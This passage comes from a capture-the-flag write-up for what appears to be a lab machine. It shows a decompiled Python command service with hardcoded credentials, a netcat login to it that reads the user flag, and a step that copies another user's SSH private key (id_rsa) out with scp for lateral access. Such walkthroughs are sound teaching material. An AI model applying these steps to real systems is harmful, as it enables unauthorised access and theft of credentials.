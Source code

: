 ```python
    server = ThreadedService((host, port), service)
    server.allow_reuse_address = True
    server_thread = threading.Thread(target=(server.serve_forever))
    server_thread.daemon = True
    server_thread.start()
    print('Server started on ' + str(server.server_address) + '!')
    while True:
        sleep(10)


if __name__ == '__main__':
    main()
# okay decompiling cmd_service.pyc
```

It is a handmade command line service with hardcoded `username` (`dill`), `password` and `port = 7321`.

These credentials do not allow us to log in as `dill` through SSH though.

5. Back on the target, we see that `dill` is currently running this service (this is the mysterious service of step 1).
```
gherkin@ubuntu-xenial:~$ ps -ef | grep cmd_service
dill      1084     1  0 04:06 ?        00:00:01 /usr/bin/python3 /var/cmd/.cmd_service.py
```

6. We connect to the service and get a cheap command line run as `dill`:

```
$ nc $TARGET_IP 7321
Username: dill
Password: **REDACTED**
Successfully logged in!
Cmd: pwd
/var/cmd

Cmd: ls -a /home/dill
.
..
.bash_history
.bashrc
.cache
.nano
.ssh
user.txt

Cmd: cat /home/dill/user.txt
**REDACTED**
```

We have reached the **user flag**!

7. This access being very limited (not interactive, stuck in `/var/cmd`, ...) we use it to copy `/home/dill/.ssh/id_rsa` to `/tmp` (for instance) and use `gherkin` to bring it back to the local machine (with `scp`) and finally properly log in as `dill` through SSH.
